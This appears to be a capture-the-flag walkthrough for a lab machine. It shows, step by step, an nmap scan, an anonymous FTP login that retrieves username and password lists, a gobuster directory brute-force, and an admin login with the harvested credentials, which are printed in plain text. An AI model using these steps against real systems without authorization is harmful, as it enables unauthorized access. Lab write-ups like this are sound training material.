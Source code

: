 1. **Scan all the ports using default scripts and determine service and version of open ports**
```bash
nmap -sV -sC [target ip]
```
--> port 21/tcp - open - ftp
	ftp-anon: Anonymous FTP login allowed
		allowed.userlist / allowed.userlist.passwd

--> port 80/tcp - open- http


2. **Move inside the machine, get the files "allowed.userlist" and "allowed.userlist.passwd" and exit**
```bash
ftp [target ip]
	Connected to [target ip]
	Name ([target ip]:kali): Anonymous
	Login successful.
ftp> ls
	allowed.userlist / allowed.userlist.passwd
ftp> get allowed.userlist
	Transfer completed
ftp> get allowed.userlist.passwd
	Transfer completed
ftp> exit
```


3. **Check out the php and html web directories with Gobuster**
```bash
gobuster dir -u http://[target ip]/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php, html
	/assets --> http://[target ip]/assets/
	/css --> http://[target ip]/css/
	/js --> http://[target ip]/js/
	*/logout.php --> http://[target ip]/login.php/
	/config.php
	/fonts --> http://[target ip]/fonts/
	/dashboard --> http://[target ip]/dashboard/
```
--> Try the URLs on your browser and check that in **"http://[target ip]/login.php/"** , we can see a login page


4. **Try the usernames and passwords that we got from the ftp server**
```bash
aron - root
pwnmeow - Supersecretpassword1
egotisticalsw - @BaASD&9032123sADS
admin - rKXM59ESxesUFHAd
```
--> When you write admin and his password, you only have to Capture the Flag which is at the top of the admin panel. That's it!
